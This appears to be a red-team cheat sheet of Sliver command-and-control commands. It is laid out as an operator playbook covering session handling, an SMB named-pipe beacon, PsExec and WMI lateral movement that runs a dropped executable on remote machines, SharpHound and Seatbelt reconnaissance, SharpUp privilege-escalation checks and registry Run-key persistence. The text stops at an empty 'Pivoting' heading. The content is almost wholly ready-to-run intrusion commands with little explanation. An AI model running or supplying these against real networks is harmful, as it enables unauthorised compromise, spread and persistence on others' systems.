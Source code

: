 ### Sessions
Switching from Beacon Mode to Session Mode
```
sessions
use <sessions_id>
interactive
```

### Kill All Session
```
sessions -F -K
```
---

### Lateral Movement

#### SMB Listener
```
pivots named-pipe --bind <named_pipe>
profiles new --format service --named-pipe <local_ip>/pipe/<named_pipe> svc-smb-beacon
```

#### PSEXEC Lateral Movement
```
psexec -d Description -s PAEXEC -p svc-smb-beacon <remote_computer>
```

#### WMI Lateral Movement
```
sharp-wmi 'action=exec computername=<remote_computer> command="C:\windows\temp\xxx.exe" result=true'
```
---

## Internal Reconnaissance 

#### Situational Awareness - Local
```
seatbelt -p C:\\Windows\\System32\\werfault.exe -- "-group=user"
```

#### Situational Awareness - Domain
```
sharp-hound-3 -- -c all 
```
---

## Privilege Escalation
```
sharpup -t 120 -p C:\\Windows\\System32\\werfault.exe audit
```
---
## Persistence
```
sharpersist -- '-t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add'
```
---
## Pivoting
